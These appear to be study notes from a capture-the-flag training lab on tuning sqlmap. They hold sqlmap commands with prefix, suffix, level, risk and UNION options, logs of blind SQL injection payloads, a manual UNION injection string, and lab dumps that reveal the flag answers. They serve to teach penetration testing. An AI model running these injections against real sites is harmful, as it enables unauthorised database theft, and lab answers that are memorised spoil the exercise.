 # Attack Tuning

## Prefix/Suffix

Every payload sent to the target consists of:

vector (e.g., UNION ALL SELECT 1,2,VERSION()): central part of the payload, carrying the useful SQL code to be executed at the target.

boundaries (e.g. '<vector>-- -): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.

Specify Prefix/Suffix
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"

--> enclosure of all vector values between the static prefix %')) and the suffix -- -

## Level/Risk

The option --level (1-5, default 1) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).

The option --risk (1-3, default 1) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

Compare payloads used withe level=1 vs level=5

sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

sqlmap -u www.example.com/?id=1 -v 3 --level=5
...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

# Advanced Tuning

Status Codes
--code=200

Titles
--titles

Strings
--string=success

Text-only
--text-only

Techniques of SQLi injection (not time-based for example)
--technique
--technique=BEU

UNION SQLi Tuning
--union-cols=17
Fillnull of columns :
--union-char='a'
--union-from=users

## LAB

### GET PARAMETER

sqlmap -u 'http://94.237.62.195:57826/case5.php?id=1' --batch --dump flag5

ls -l /home/htb-ac-786011/.local/share/sqlmap/output/94.237.62.195/dump/testdb/

sqlmap -u 'http://94.237.62.195:57826/case5.php?id=1'  -v 3 --level=5 --batch --dump flag5

sqlmap -u 'http://94.237.62.195:57826/case5.php?id=1' --prefix="%'))" --suffix="-- -"

sqlmap -u 'http://94.237.62.195:57826/case5.php?id=1' --no-cast --dump -T flag5 --level=5 --risk=3

Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+

### GET PARAMETER PREFIX

sqlmap -u 'http://94.237.62.195:57826/case6.php?col=id' --no-cast --dump -T flag6 --level=5 --risk=3 --prefix='`)'

Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+


### UNION QUERY

id' UNION select 1,@@version,3,4,5-- 


sqlmap -u 'http://94.237.62.195:57826/case7.php?id=1' --union-cols=5 --no-cast --dump -T flag7 

Database: testdb
Table: flag7
[1 entry]
+----+-----------------------+
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+

